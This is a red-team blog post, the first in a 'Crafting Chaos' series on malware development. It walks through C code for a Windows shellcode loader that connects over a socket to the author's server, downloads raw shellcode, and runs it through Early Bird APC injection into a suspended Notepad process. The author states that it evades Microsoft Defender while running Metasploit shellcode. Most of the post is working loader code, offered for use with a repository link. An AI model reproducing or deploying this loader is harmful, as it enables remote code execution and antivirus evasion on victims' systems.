 ```yaml
---
title: "Crafting Chaos: A deep dive into developing Shellcode Loaders!"                                        
date: "24-03-2024"          
excerpt: "I thought of creating a shellcode loader which upon executing will make a connection to my server, downloads the shellcode and executes it."                                                            
readTime: "04 min read"
tags: ["Red Team", "Shellcode Loaders", "AV Bypass"]
author: "WaterBucket"
---
```


Crafting Chaos: A deep dive into developing Shellcode Loaders!
==============================================================


![Generated using DALL-E](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*wFg1sEAhgfMp5EtpsF9Ztg.png)

Hello Everyone! It’s been quite a while since I published a blog post. I am planning to create a new series of posts under the list “Crafting Chaos” where I will be writing about developing custom malwares.

Why this post?
==============

There are many awesome resource out there related to developing malwares but what I have noticed is, Most of the authors are embedding the shellcode directly to the loader which increases the size of loader (not you sliver :) )and also increases the chance of getting detected based on static detection. But yeah, there are plenty of ways to bypass static detection like encrypting the shellcode etc.

So, I thought of creating a shellcode loader which upon executing will make a connection to my server, downloads the shellcode and executes it.

Surprisingly this bypasses Microsoft Defender [latest] and runs the Metasploit's raw shellcode.

> NOTE: It’s not FUD. As far as I have tested, it didn’t get detected while running the basic commands.

How the loader works?
---------------------

When the user executes the loader, it will make a connection using sockets to my server where I am hosting my shellcode, retrieves the data (shellcode), stores it in a variable and then closes the socket. Upon successful retrieving of data, The loader uses typical Early Bird APC Injection to execute the downloaded shellcode.

[This blog post](https://0xmani.medium.com/apc-queue-code-injection-f632f23ec85b) clearly walkthrough the steps involved in Early Bird APC Injection in detail. I highly recommend to read that post to understand the process injection technique.

Technical breakdown:
--------------------

The loader uses “[Winsock2](https://learn.microsoft.com/en-us/windows/win32/winsock/windows-sockets-start-page-2)” library for implementing sockets. If you are not familiar with Winsock2 library then here’s Microsoft’s definition for you.

> Windows Sockets 2 (Winsock) enables programmers to create advanced Internet, intranet, and other network-capable applications to transmit application data across the wire, independent of the network protocol being used.

We need to download our shellcode that we have created and to simplify the process we can break down the download process like this:

1.  Initializing Winsock
2.  Creating a socket
3.  Connecting to the server
4.  Receiving data

I won’t go in depth about what each of the arguments mean for each function since they’re are all readily available in the documentation.

Initializing Winsock
--------------------

We’ll use the WSAStartup() function to initialize Winsock:

```C
WSADATA wsadata;
WSAStartup(MAKEWORD(2,2), &wsadata);
```

Creating a Socket
-----------------

The socket() function is used to create a socket. The sockaddr_in struct is used to define some required information such as the target IP address and port number:

```C
SOCKET revshell = socket(AF_INET, SOCK_STREAM, IPPROTO_TCP);
if (revshell == INVALID_SOCKET) {
 printf("[!] Failed to create a socket.\nExiting with error: %ld\n", WSAGetLastError());
 closesocket(revshell);
 WSACleanup();
 exit(1);
}
printf("[+] Socket created successfully.\n");
SOCKADDR_IN sockaddr = { 0 };
sockaddr.sin_family = AF_INET;
sockaddr.sin_port = htons(443); //Change the port number
inet_pton(AF_INET, "127.0.0.1", &sockaddr.sin_addr.s_addr); //Change the IP address
```

Connecting to The Server
------------------------

The connect() function is used to connect to the server:

```C
if (connect(revshell, (SOCKADDR*)&sockaddr, sizeof(sockaddr)) == SOCKET_ERROR) {
 printf("[!] Failed to connect to socket.\nExiting with error: %ld\n",WSAGetLastError());
 closesocket(revshell);
 WSACleanup();
 exit(1);
}
printf("[+] Connected to socket!\n");
```

Receiving Data
--------------

To receive that data we use the recv() function and store the response into the variable shellcode:

```C
if (shellcodeDownload = recv(revshell, (char*)shellcode, 1024, 0) == SOCKET_ERROR) {
 printf("[!] Error downloading the shellcode.\nExiting with error: %ld\n", WSAGetLastError());
}
printf("%s\n", shellcode);
printf("[+] Size of shellcode: %ld\n", sizeof(shellcode));
shellcode[shellcodeDownload];
closesocket(revshell);
```

Process Injection
-----------------

Now, We have the program which downloads the shellcode and stores it in a variable. Let’s proceed with the Early Bird APC Injection program. As I have already mentioned , for detailed explanation of this code checkout that blog post that I’ve linked above.

```C
int main() {
 printf("[*] Attempting to download shellcode.\n");
 Sleep(400);
 ReverseShell();  //Function to download the shellcode
 STARTUPINFOA stinfo = { 0 };
 PROCESS_INFORMATION pinfo = { 0 };
//Creating a sacrificial process where we will be injecting our shellcode
 if (!CreateProcessA("C:\\Windows\\System32\\Notepad.exe", NULL, NULL, NULL, FALSE, (CREATE_SUSPENDED | CREATE_NO_WINDOW), NULL, NULL, &stinfo, &pinfo)) {
  printf("[!] Failed to create a sacrificial process.\nExiting with error: %ld\n", GetLastError());
  return EXIT_FAILURE;
 }
 printf("[+] Sacrificial process created successfully with PID: %ld\n",pinfo.dwProcessId);
 HANDLE hProcess = pinfo.hProcess;
 HANDLE hThread = pinfo.hThread;
 DWORD oldprotect = 0;
//Allocating memory in the sacrificial process to store our shellcode.
 LPVOID virtualmem = VirtualAllocEx(hProcess, NULL, sizeof(shellcode), (MEM_COMMIT | MEM_RESERVE), PAGE_READWRITE);
 if (virtualmem == NULL) {
  printf("[!] Failed to allocate memory.\nExiting with error: %ld\n", GetLastError());
  return EXIT_FAILURE;
 }
 printf("[+] Memory successfully allocated.\n\t\\----0x%p\n", virtualmem);
//Writing the downloaded shellcode into the allocated memory.
 if (!WriteProcessMemory(hProcess, virtualmem, shellcode, sizeof(shellcode), NULL)) {
  printf("[!] Failed to write shellcode into memory.\nExiting with error: %ld\n", GetLastError());
  return EXIT_FAILURE;
 }
 printf("[+] Shellcode written into memory.\n\t\\----0x%p\n", shellcode);
//Changing the memory protection of the allocated memory region.
 if (!VirtualProtectEx(hProcess, virtualmem, sizeof(shellcode), PAGE_EXECUTE_READ, &oldprotect)) {
  printf("[!] Failed to change memory protection.\nExiting with error: %ld\n",GetLastError());
  return EXIT_FAILURE;
 }
 printf("[+] Memory protection changed from PAGE_READWRITE to PAGE_EXECUTE_READ\n");
 Sleep(400);
 printf("[*] Attempting to execute shellcode.\n");
//Setting the main thread to Alert state to trigger APC Injection.
 QueueUserAPC((PAPCFUNC)virtualmem, hThread, NULL);
 ResumeThread(hThread);
 
 printf("[+] Shellcode executed!\n");
//Closing the handle to the process and thread.
 CloseHandle(hProcess);
 CloseHandle(hThread);
 
 return EXIT_SUCCESS;
}
```

You can get the whole code from my [GitHub repository.](https://github.com/Dharani-sanjaiy/ShellcodeLdr-Dev)

PoC
---

I will explain about other techniques in the upcoming posts.

_If you like my content, Buy me a coffee_ [_here_](https://www.buymeacoffee.com/dharanisanjaiy) _:)_

_Connect with me on_ [_LinkedIn_](https://www.linkedin.com/in/dharani-sanjaiy-/)_,_ [_X_](https://twitter.com/DharaniSanjaiy)_._

Thanks for reading!

Checkout the below authors for some awesome Malware Development blogs.

[About Me | Crow's Nest
----------------------

### hey, I'm crow!

www.crow.rip](https://www.crow.rip/crows-nest?source=post_page-----a965a80903f2---------------------------------------)

[cocomelonc
----------

### Cybersec, pentest, red team, hacking

cocomelonc.github.io](https://cocomelonc.github.io/?source=post_page-----a965a80903f2---------------------------------------)
